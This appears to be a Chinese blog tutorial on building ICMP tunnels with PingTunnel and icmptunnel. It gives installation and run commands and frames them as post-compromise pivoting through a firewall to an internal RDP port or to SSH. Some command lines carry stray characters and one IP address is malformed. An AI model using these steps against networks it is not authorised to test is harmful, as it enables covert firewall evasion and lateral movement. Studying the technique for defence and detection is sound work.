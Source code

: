 **目录**

[ICMP隧道](#t0 "ICMP隧道")

[使用ICMP搭建隧道(PingTunnel)](#t1 "使用ICMP搭建隧道(PingTunnel)")

[使用ICMP搭建隧道(Icmptunnel)](#t2 "使用ICMP搭建隧道(Icmptunnel)")

* * *

ICMP隧道
------

ICMP隧道简单实用，是一个比较特殊的协议。在一般的[通信协议](https://so.csdn.net/so/search?q=%E9%80%9A%E4%BF%A1%E5%8D%8F%E8%AE%AE&spm=1001.2101.3001.7020)里，如果两台设备要进行通信，肯定需要开放端口，而在ICMP协议下就不需要。最常见的ping命令就是利用的ICMP协议，攻击者可以利用命令行得到比回复更多的ICMP请求。在通常情况下，每个ping命令都有相应的回复与请求。

在一些网络环境中，如果攻击者使用各类上层隧道(例如：HTTP隧道、DNS隧道、常规正/反向端口转发等)进行的操作都失败了，常常会通过ping命令访问远程计算机，尝试建立ICMP隧道，将TCP/UDP数据封装到ICMP的ping数据包中，从而穿过防火墙(防火墙一般不会屏蔽ping的数据包)，实现不受限制的访问访问。

### 使用ICMP搭建隧道(PingTunnel)

PingTunnel是一款常用的ICMP隧道工具，可以跨平台使用，为了避免隧道被滥用，还可以为隧道设置密码。

**拓扑图如下：**

192.168.10.X 模拟公网地址，Web服务器模拟企业对外提供Web服务的机器，该机器可以通内网，同时向公网提供服务。内网存在一台WIndows机器，Web服务器可以与该机器连接。现在我们获取到了Web服务器的权限，想用ICMP搭建通往内网的隧道，连接内网Windows的3389端口。

![](https://img-blog.csdnimg.cn/20200219214559843.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

**PingTunnel的安装**

```
#安装libpcap的依赖环境      
yum -y install byacc      
yum -y install flex bison       
#安装libpcap依赖库      
wget http://www.tcpdump.org/release/libpcap-1.9.0.tar.gz      
tar -xzvf libpcap-1.9.0.tar.gz      
cd libpcap-1.9.0      
./configure      1
make && make install       1
#安装PingTunnel      1
wget http://www.cs.uit.no/~daniels/PingTunnel/PingTunnel-0.72.tar.gz      1
tar -xzvf PingTunnel-0.72.tar.gz      1
cd PingTunnel      1
make && make install
```


**在Web服务器的操作**

```
ptunnel -x shuteer     #-x 指定连接密码
```


### ![](https://img-blog.csdnimg.cn/2020021921362925.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

**VPS的操作**

```
ptunnel -p 192.168.10.129 -lp 1080 -da 10.10.10.10 -dp 3389 -x shuteer      
    -p 指定ICMP隧道另一端的IP      
    -lp：指定本地监听的端口      
    -da：指定要转发的目标机器的IP      
    -dp：指定要转发的目标机器的端口      
    -x：指定连接密码
```


![](https://img-blog.csdnimg.cn/20200219213717446.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

然后我们只需要远程连接192.168.10.129的1080端口就相当于连接了10.10.10.10的3389端口了。

![](https://img-blog.csdnimg.cn/20200219213811403.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

![](https://img-blog.csdnimg.cn/20200219213951230.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

### 使用ICMP搭建隧道(Icmptunnel)

适用场景：目标机器是Linux服务器的情况

*   攻击机：Redhat7  192.1.68.10.20
*   靶机：Centos7  192.168.10.13

ICMP隧道是指将TCP连接通过ICMP包进行隧道传送的一种方法。

icmptunnel是一个将IP流量封装到 ICMP echo请求和回复（ping）包中的隧道工具，是在允许 ping 的网络中进行拓展、绕过防火墙的一种半隐蔽方式。虽然ICMP echo流量在网络边界通常会被过滤，但这种方法仍然可能对从企业内网出连到互联网的技术有一定帮助。

**icmptunnel的安装**

分别在服务端和客户端安装 icmptunnel，安装过程如下

```
git clone https://github.com/jamesbarlow/icmptunnel.git      
make
```


![](https://img-blog.csdnimg.cn/20200219193922818.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

**服务端的操作：**

```
echo 1 > /proc/sys/net/ipv4/icmp_echo_ignore_all      #禁用icmp回复      
./icmptunnel -s                                       #监听      
重新打开一个命令行窗口      
ifconfig tun0 10.0.0.1 netmask 255.255.255.0          #添加tun0网卡，分配隧道地址10.0.0.1/24
```


![](https://img-blog.csdnimg.cn/20190823144336426.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

![](https://img-blog.csdnimg.cn/2019082314425743.png)

**客户端的操作：**

```
echo 1 > /proc/sys/net/ipv4/icmp_echo_ignore_all      #禁用icmp回复      
./icmptunnel 192.168.10.20                            #连接服务端      
重新打开一个命令行窗口      
ifconfig tun0 10.0.0.2 netmask 255.255.255.0          #添加tun0网卡，分配隧道地址10.0.0.2/24
```


![](https://img-blog.csdnimg.cn/20190823144414930.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

![](https://img-blog.csdnimg.cn/20190823144433595.png)

至此，客户端和服务端已经打通了一条ICMP隧道。

![](https://img-blog.csdnimg.cn/20190823144710706.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

接下来，在客户端和服务端分别用隧道的ip地址进行SSH连接。

![](https://img-blog.csdnimg.cn/20190823144509737.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

![](https://img-blog.csdnimg.cn/20190823144532292.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

 如果想跟我一起讨论的话，就快加入我的知识星球吧。星球里有一千多位同样爱好安全技术的小伙伴一起交流！[知识星球 | 深度连接铁杆粉丝，运营高品质社群，知识变现的工具](https://wx.zsxq.com/dweb2/index/group/88514121251242 "知识星球 | 深度连接铁杆粉丝，运营高品质社群，知识变现的工具")

![](https://img-blog.csdnimg.cn/1219ed79e9ed449d85d27b732cda5ea6.jpg)